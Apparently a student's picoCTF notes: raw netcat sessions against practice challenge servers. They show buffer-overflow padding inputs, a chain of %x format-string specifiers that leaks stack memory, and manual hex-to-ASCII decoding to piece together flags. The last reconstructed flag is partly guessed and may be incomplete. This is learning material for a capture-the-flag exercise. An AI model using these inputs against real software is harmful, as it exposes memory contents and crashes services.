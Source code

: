 earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

_______________________________________________________________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1e2qwe21.#\
There is no such burger yet!

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}

_______________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
Here's a story -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&


qew
eqweqeqeqeqeq
^Z
[1]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> \0
Here's a story -
\0

^Z
[2]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> %s
Here's a story -
%s
^C
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> flag.txt
Here's a story -
flag.txt





https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/




earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53394
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x
Here's a story -
ff9a22c0:ff9a22e0:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:

by copy pasting into a hexadec to text website https://www.rapidtables.com/convert/number/hex-to-ascii.html
we get
ÿ"Àÿ"àI4bS§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§RS§ö6´eD6³C4ÅövãsFÄffcóGE5


after some trail and error i just deleted part of the initial text
now translating 
78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
we get
x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%%:xocip{FTCk43L_gn1g4lFff0_4tS_

of which ocip{FTCk43L_gn1g4lFff0_4tS_ looks like the flag but jumbled
{k43L_gn1 g4lF ff0_ 4tS _     |  picoCTF{L34king_Fl4g_0ff_St4_}
